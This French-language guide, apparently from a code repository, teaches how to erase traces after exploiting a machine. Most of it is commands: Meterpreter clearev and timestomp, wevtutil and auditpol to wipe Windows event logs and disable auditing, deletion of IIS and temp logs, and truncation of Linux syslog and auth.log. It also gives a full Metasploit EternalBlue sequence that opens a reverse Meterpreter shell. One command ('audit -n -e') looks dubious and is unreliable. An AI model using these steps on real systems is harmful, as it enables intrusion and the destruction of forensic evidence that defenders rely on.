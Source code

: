 En plus de Metasploit, il existe plusieurs autres outils et techniques pour effacer les traces après une exploitation. Voici quelques-uns des outils couramment utilisés :

### 1. **Clearev (Meterpreter)**

`Clearev` est un module Meterpreter pour effacer les logs d'événements sur une machine Windows.

- **Utilisation** :
  ```meterpreter
  run post/windows/manage/clearev
  ```

### 2. **Wevtutil (Windows)**

`Wevtutil` est un utilitaire natif de Windows pour gérer les journaux d'événements. Il peut être utilisé pour effacer les journaux d'événements spécifiques.

- **Effacer les journaux d'événements** :
  ```powershell
  wevtutil cl Application
  wevtutil cl Security
  wevtutil cl System
  ```

### 3. **Auditpol (Windows)**

`Auditpol` est un outil Windows pour configurer et afficher les paramètres de la politique d'audit.

- **Désactiver l'audit** :
  ```powershell
  auditpol /clear
  ```

### 4. **PowerShell Scripts**

Les scripts PowerShell peuvent être utilisés pour effectuer diverses tâches d'effacement de traces.

- **Effacer les fichiers temporaires** :
  ```powershell
  Remove-Item -Path C:\Windows\Temp\* -Recurse
  ```

- **Effacer les journaux IIS** :
  ```powershell
  Remove-Item -Path C:\inetpub\logs\LogFiles\W3SVC1\*.log
  ```

### 5. **Timestomp (Meterpreter)**

`Timestomp` est un module Meterpreter pour manipuler les attributs de temps des fichiers sur le système de fichiers NTFS.

- **Modifier les attributs de temps d'un fichier** :
  ```meterpreter
  timestomp C:\\path\\to\\file.exe -m "01/01/2020 00:00:00"
  ```

### 6. **Log Cleaner (Linux)**

`Log Cleaner` est un outil pour effacer les logs sur les systèmes Linux.

- **Effacer les logs syslog** :
  ```bash
  echo "" > /var/log/syslog
  ```

- **Effacer les logs auth.log** :
  ```bash
  echo "" > /var/log/auth.log
  ```

### 7. **Audit Log Cleaner (Unix)**

`Audit Log Cleaner` est utilisé pour effacer les logs d'audit sur les systèmes Unix.

- **Utilisation** :
  ```bash
  audit -n -e
  ```

### Exemple complet de nettoyage des traces avec différents outils

#### Utilisation de `Clearev` et `Wevtutil` sur une machine Windows

1. **Lancer Metasploit et obtenir une session Meterpreter** :

   ```bash
   msfconsole
   ```

   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST <IP-de-la-cible>
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <Votre-IP-Kali>
   set LPORT 4444
   exploit
   ```

2. **Utiliser `Clearev` pour effacer les logs d'événements** :

   ```meterpreter
   run post/windows/manage/clearev
   ```

3. **Utiliser `Wevtutil` pour effacer les journaux d'événements spécifiques** :

   ```meterpreter
   shell
   wevtutil cl Application
   wevtutil cl Security
   wevtutil cl System
   exit
   ```

4. **Effacer les fichiers temporaires et logs spécifiques** :

   ```meterpreter
   rm C:\\Windows\\Temp\\*.log
   rm C:\\Windows\\Temp\\malicious_tool.exe
   ```

5. **Utiliser `Timestomp` pour modifier les attributs de temps des fichiers** :

   ```meterpreter
   timestomp C:\\path\\to\\file.exe -m "01/01/2020 00:00:00"
   ```

#### Utilisation de `Log Cleaner` et `Audit Log Cleaner` sur une machine Linux

1. **Effacer les logs syslog et auth.log** :

   ```bash
   echo "" > /var/log/syslog
   echo "" > /var/log/auth.log
   ```

2. **Utiliser `Audit Log Cleaner` pour effacer les logs d'audit** :

   ```bash
   audit -n -e
   ```
